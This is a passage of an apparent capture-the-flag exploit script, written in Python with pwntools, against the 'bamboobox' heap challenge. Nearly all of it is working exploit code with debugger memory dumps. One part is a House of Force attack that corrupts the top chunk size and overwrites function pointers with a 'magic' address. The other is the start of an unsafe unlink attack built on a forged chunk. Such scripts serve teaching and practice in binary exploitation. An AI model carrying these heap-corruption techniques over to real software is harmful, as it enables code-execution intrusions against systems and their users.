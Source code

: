    ```s
    # 0x10d0050:    0x0000000000000000  0x0000000000000000
    # 0x10d0060:    0x0000000000000000  0x0000000000020fa1 <- top chunk
    # 0x10d0070:    0x0000000000000000  0x0000000000000000


    offset = 0x10d0000 - 0x10d0060
    malloc_size = offset - 0x8 # SIZE_SZ = 0x8(at 64 bit)
    payload = 'a'*0x30 + 'a'*8 + p64(0xffffffffffffffff)
    chage(0,payload)
    # dbg()
    # pwndbg> x/16g 0x237b020
    # 0x237b020:    0x0000000000000000  0x0000000000000041
    # 0x237b030:    0x6161616161616161  0x6161616161616161
    # 0x237b040:    0x6161616161616161  0x6161616161616161
    # 0x237b050:    0x6161616161616161  0x6161616161616161
    # 0x237b060:    0x6161616161616161  0xffffffffffffffff <- top chunk
    # 0x237b070:    0x0000000000000000  0x0000000000000000

    add(malloc_size,'bbb')
    # dbg()
    # pwndbg> x/16g &main_arena
    # 0x7fcde41dbb20 <main_arena>:  0x0000000100000000  0x0000000000000000
    # 0x7fcde41dbb30 <main_arena+16>:   0x0000000000000000  0x0000000000000000
    # 0x7fcde41dbb40 <main_arena+32>:   0x0000000000000000  0x0000000000000000
    # 0x7fcde41dbb50 <main_arena+48>:   0x0000000000000000  0x0000000000000000
    # 0x7fcde41dbb60 <main_arena+64>:   0x0000000000000000  0x0000000000000000
    # 0x7fcde41dbb70 <main_arena+80>:   0x0000000000000000  0x0000000001e9f000 < top chunk
    # 0x7fcde41dbb80 <main_arena+96>:   0x0000000000000000  0x00007fcde41dbb78
    # 0x7fcde41dbb90 <main_arena+112>:  0x00007fcde41dbb78  0x00007fcde41dbb88
    # pwndbg> x/16g 0x0000000001e9f000
    # 0x1e9f000:    0x0000000000000000  0x0000000000000059
    # 0x1e9f010:    0x0000000000400896  0x00000000004008b1
    # 0x1e9f020:    0x0000000000000000  0x0000000000000041 <- id0
    # 0x1e9f030:    0x6161616161616161  0x6161616161616161
    # 0x1e9f040:    0x6161616161616161  0x6161616161616161
    # 0x1e9f050:    0x6161616161616161  0x6161616161616161
    # 0x1e9f060:    0x6161616161616161  0x00ffffffffffffa1
    # 0x1e9f070:    0x0000000000000000  0x0000000000000000

    add(0x10,p64(0x400D49)*2)
    # dbg()
    # pwndbg> x/8g 0x1523000
    # 0x1523000:    0x0000000000000000  0x0000000000000021
    # 0x1523010:    0x0000000000400d49  0x0000000000400d49 <- magic
    # 0x1523020:    0x0000000000000000  0x0000000000000039
    # 0x1523030:    0x6161616161616161  0x6161616161616161

    print ru("Your choice:")
    s(5)
    print r()

def unlinnk():
    elf = ELF('./bamboobox',checksec=False)
    atoi_got = elf.got['atoi']
    add(0x40,'aaa') #id0
    add(0x80,'bbb') #id1
    add(0x10,'ccc') #id2, in orderto aovid id1 combine with top chunk when we free it
    target = 0x006020C8 # box
    fake_chunk = p64(0) + p64(0x41)
    fake_chunk += p64(target - 0x18) + p64(target - 0x10)
    fake_chunk += p64(0)*4
    fake_chunk += p64(0x40) + p64(0x90)
    chage(0,fake_chunk)
   ```